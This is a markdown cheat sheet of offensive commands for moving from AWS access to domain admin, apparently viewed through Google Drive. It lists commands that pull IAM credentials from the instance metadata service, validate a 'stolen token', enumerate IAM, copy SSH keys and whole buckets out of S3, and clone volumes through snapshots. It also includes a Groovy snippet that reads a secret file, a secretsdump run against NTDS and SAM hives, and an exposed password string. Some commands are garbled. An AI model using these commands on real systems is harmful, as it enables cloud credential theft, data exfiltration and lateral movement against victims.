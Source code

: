   

# Helpful tools

## AWS CLI

### AWS Shell
https://github.com/awslabs/aws-shell

```bash
sudo pip install aws-shell
```

### AWS IMDS

v1
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/Demo-overpriv-dontassign
```

[v2](https://nelson.cloud/getting-ec2-instance-metadata-using-imdsv2/)
```bash
TOKEN=`curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& PROF=`TOKEN=`curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" "http://169.254.169.254/latest/meta-data/iam/security-credentials/$PROF"
```

### AWS STS
Is the stolen token valid?

```bash
aws sts get-caller-identity
```

Can we assume roles?
```bash
aws sts assume-role <role id>
```

### AWS IAM
What permissions do we have? Are there roles we can assume?
```bash
aws iam list-roles
aws iam list-policies
aws iam list-groups
aws iam list-users

aws iam list-user-policies
aws iam list-attached-user-policies
aws iam list-groups-for-user

aws iam list-group-policies
aws iam list-attached-group-policies
```

Can we overwrite a policy? [https://bishopfox.com/blog/privilege-escalation-in-aws]
```bash
aws iam get-policy-version --ploicy-arn <arn>
```

### [AWS S3](https://docs.aws.amazon.com/cli/latest/reference/s3/)
What S3 objects are there?
```bash
aws s3 ls
```

Simple filter to extract SSH keys named "id_rsa"
```bash
aws s3 cp s3://<bucket> /tmp/ --recursive --exclude "*" --include "*id_rsa*"
```

Loop to pull all objects from a bucket (WARNING: Could cost a lot of $$$)
```bash
for s in $(aws s3 ls | cut -d' ' -f 3); do echo "$s";mkdir "$s"; cd "$s"; aws s3 sync "s3://$s" .; cd ..; echo; done;
```

### [AWS SSM](https://docs.aws.amazon.com/cli/latest/reference/ssm/)

List inventory
```bash
aws ssm get-inventory
```

Run interactive session
```bash
aws ssm start-session --target <instance-id>
```

### [AWS EC2](https://docs.aws.amazon.com/cli/latest/reference/ec2/)
list instances
```bash
aws ec2 describe-instances
```

Can also filter, such as `platform=windows`
```bash
aws ec2 describe-instances --filters '[{"Name": "platform","Values": ["windows"]}] 
```

list volumes on instance
```bash
aws ec2 describe-volumes --filter '[{"Name": "attachment.instance-id","Values": ["<instance-id>"]}]' 
```

list snapshots of a volume
```bash
aws ec2 describe-snapshots --filter '[{"Name": "volume-id","Values": ["<volume-id>"]}]'
```

[Make a snapshot of volume](https://docs.aws.amazon.com/cli/latest/reference/ec2/create-snapshot.html)
```bash
aws ec2 create-snapshot --volume-id <volume-id> --description "test snap" --region <specify region you have access to>
```

[Make volume of snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/create-volume.html)
```bash
aws ec2 create-volume --snapshot-id <snapshot-id> --availability-zone <value>
```

[Attach volume to instance](https://docs.aws.amazon.com/cli/latest/reference/ec2/attach-volume.html)
```bash
aws ec2 attach-volume --device <value> --instance-id <value> --volume-id <value>
```

### AWS Consoler
```bash
$(./parse_token.sh example_creds.json)

aws_consoler -a $AWS_ACCESS_KEY_ID -s $AWS_SECRET_ACCESS_KEY -t $AWS_SESSION_TOKEN -R us-east-1
```

### Other AWS Tools
[AWS-Security-Tools](https://github.com/0xVariable/AWS-Security-Tools)

## Specify Proxy
```bash
http_proxy=http://127.0.0.1:8080 https_proxy=http://127.0.0.1:8080 <aws command>
```

## Groovy
pwd 2J#&#4jsPRh@rYfU
```bash
def command = '''
    ls -ltr
    cat secret
'''
def proc = ['bash', '-c', command].execute()
proc.waitFor()
println proc.text
```

## Secretsdump

```bash
/System/Volumes/Data/Users/khris/Library/Python/3.9/bin/secretsdump.py -ntds ntds.dit -sam SAM -system SYSTEM LOCAL
```

AWS-to_DA_helpfulcommands.md

Open with

 Share

[![](https://lh3.google.com/u/0/ogw/AF2bZygzLczKbHTpnXWvE2RtBQqkQV1iCmw6gQZvVnxr5Ab1nw=s32-c-mo)](https://accounts.google.com/SignOutOptions?hl=en&continue=https://drive.google.com/file/d/1P_xYkjvKXVxWadtorttQ92hpgiiRIVjd/view%3Fusp%3Dsharing&service=writely&ec=GBRAGQ)

Displaying AWS-to_DA_helpfulcommands.md.